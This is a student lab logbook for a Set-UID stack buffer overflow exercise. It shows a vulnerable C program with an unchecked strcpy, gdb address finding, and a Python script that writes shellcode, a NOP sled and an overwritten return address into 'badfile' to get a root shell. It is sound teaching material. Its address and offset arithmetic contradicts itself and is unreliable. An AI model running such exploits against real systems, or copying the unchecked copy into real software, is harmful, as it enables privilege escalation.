 # Work from Week 5

## Task 1

- Disabled address randomization, so that the addresses of the variables don't change in each execution of the program.
- Changed shell linked to /bin/sh, so that the shell executed allows for Set-UID program attacks.
- Using the Makefile, we compiled and ran the program (call_shellcode.c).
- Both programs (32 bit and 64 bit) gaved us access to the shell.

![Fig 1](./imgs/LOGBOOK5/1.png)

## Task 2

- Using the Makefile, we compiled and ran the program (stack.c).
- Checked the permissions of the resulting programs, confirming the Set-UID bit. 

![Fig 2](./imgs/LOGBOOK5/2.png)

## Task 3

- We started by creating a file called "badfile".
- Then we opened the debug file of stack-L1 (stack-L1-dbg).

![Fig 3](./imgs/LOGBOOK5/3.png)

- Then we ran some commands like "b bof", "next", "p $ebp", "p &buffer", etc. We ended up receiving the following values:
    - ebp -> 0xffffca88
    - buffer -> 0xffffca1c

![Fig 4](./imgs/LOGBOOK5/4.png)
![Fig 5](./imgs/LOGBOOK5/5.png)

- Finally we changed the exploit.py file:
    - Start is equal to 490 because the buffer has a size of 517 bytes and our shellcode has a size of 27 bytes. The shellcode is at the end of the shellcode, so 517 - 27 = 490.
    - The return is equal to 0xffffcbf6 because the buffer starts at 0xffffca88. 490 in hexadecimal is 0x1ea. 0xffffca88 + 0x1ea = 0xffffcc72. Then the return address is 0xffffcc72.
    - The "offset" refers to the specific location within a program's memory where we must insert a return address that points to our shellcode. To identify this location, we need to consider a few factors. First, we know that the return address we want to change is located immediately after the Extended Base Pointer (ebp), which typically occupies 4 bytes of memory.
    - To find the offset, we perform a simple calculation. We subtract the memory address of ebp (0xffffca88) from the memory address of the buffer (0xffffca1c). This subtraction tells us that ebp is located 108 bytes after the beginning of the buffer. Then, we add the size of ebp (which is 4 bytes) to this result, giving us an offset of 112 bytes from the start of the buffer. This offset is the precise location where we need to modify the return address.
``````
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 490              # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    =  0xFFFFCBF6        # Change this number 0xffffca0c(buffer) + 0x1ea(490)
offset = 112              # Change this number to 0x6c + 4

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
``````
- Finally we can run the exploit and then run stack-L1 and get access to the rootshell.

![Fig 6](./imgs/LOGBOOK5/6.jpeg)

## Task 4

- After we changed the buffer size from 100 to 200 there was no changes. We still have access to the rootshell.

``````
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

/* Changing this size will change the layout of the stack.
 * Instructors can change this value each year, so students
 * won't be able to use the solutions from the past.
 */
#ifndef BUF_SIZE
#define BUF_SIZE 200  <-----------
#endif

void dummy_function(char *str);

int bof(char *str)
{
    char buffer[BUF_SIZE];

    // The following statement has a buffer overflow problem
    strcpy(buffer, str);      

    return 1;
}

int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;

    badfile = fopen("badfile", "r");
    if (!badfile) {
       perror("Opening badfile"); exit(1);
    }

    int length = fread(str, sizeof(char), 517, badfile);
    printf("Input size: %d\n", length);
    dummy_function(str);
    fprintf(stdout, "==== Returned Properly ====\n");
    return 1;
}

// This function is used to insert a stack frame of size
// 1000 (approximately) between main's and bof's stack frames.
// The function itself does not do anything.
void dummy_function(char *str)
{
    char dummy_buffer[1000];
    memset(dummy_buffer, 0, 1000);
    bof(str);
}
``````

![Fig 7](./imgs/LOGBOOK5/7.jpeg)
